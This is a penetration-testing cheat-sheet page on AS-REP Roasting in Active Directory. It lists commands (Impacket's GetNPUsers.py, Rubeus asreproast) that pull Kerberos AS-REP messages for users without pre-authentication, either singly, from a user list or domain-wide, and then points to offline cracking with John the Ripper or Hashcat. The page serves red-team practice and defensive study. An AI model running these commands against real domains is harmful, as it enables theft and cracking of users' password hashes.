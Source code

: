 # ASREP Roasting

> Given a list of valid domain usernames, query the KDC to determine which has the "does not require [[kerberos#Kerberos Pre-Authentication|pre-authentication]]" option set. For each account that doesn't require [[kerberos#Kerberos Pre-Authentication|pre-authentication]], you can send a `KRB_AS_REQ` request on behalf of that user and the KDC will respond with a `KRB_AS_REP` message, which will contain a block of data encrypted with the user's NTLM hash. You can crack this block of data offline to recover the user's NTLM hash.

---

## Gather users who have [[kerberos#Kerberos Pre-Authentication|Kerberos pre-authentication]] disabled and thus are vulnerable to ASREP Roasting (requires domain credentials)

- From a Linux machine:
	- [[pywerview#Gather Users that are ASREP-roasting ASREP-Roastable|pywerview]]
- From a domain-joined Windows machine (in the context of a domain user)
	- [[sharpview#Gather Users who don't Require kerberos Kerberos Pre-Authentication Kerberos Pre-Authentication|SharpView]]
	- [[powerview#Gather Users who don't Require kerberos Kerberos Pre-Authentication Kerberos Pre-Authentication|PowerView]]

---

## ASREP Roast a Particular Domain User from Linux (no password required)

1. Attempt to get a `KRB_AS_REP` message for the user account.

```bash
GetNPUsers.py [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_IP] $DNS_DOMAIN_NAME/$USERNAME -format $FORMAT [-outputfile $OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## ASREP Roast a List of Domain Users from Linux (no password required)

1. Attempt to get a `KRB_AS_REP` message for each user account from the username file.

```bash
GetNPUsers.py [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_IP] $DNS_DOMAIN_NAME/ -usersfile $USERS_FILE -format $FORMAT [-outputfile $OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## Automatically ASREP Roast all Vulnerable Users on a Domain from Linux (requires domain user credentials)

1. Attempt to get a `KRB_AS_REP` message for each user account from the domain.

```bash
GetNPUsers.py $DOMAIN_NAME/$USERNAME:[$PASSWORD] [-hashes $LMHASH:NTHASH] [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_ADDRESS] -format $FORMAT
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## ASREP Roast Vulnerable Users from a Domain-Joined Windows Machine

You must be in the context of a domain user for this to work.

1. Attempt to get a `KRB_AS_REP` message for all users that don't have [[kerberos#Kerberos Pre-Authentication|Kerberos pre-authentication]] enabled.

```powershell
Rubeus.exe asreproast /format:$FORMAT [/outfile:$OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## Disable a Pre-Authentication for a Principal (Targeted ASREP Roasting)

See [[powerview#Disable a Principal's Pre-Authentication|here]].
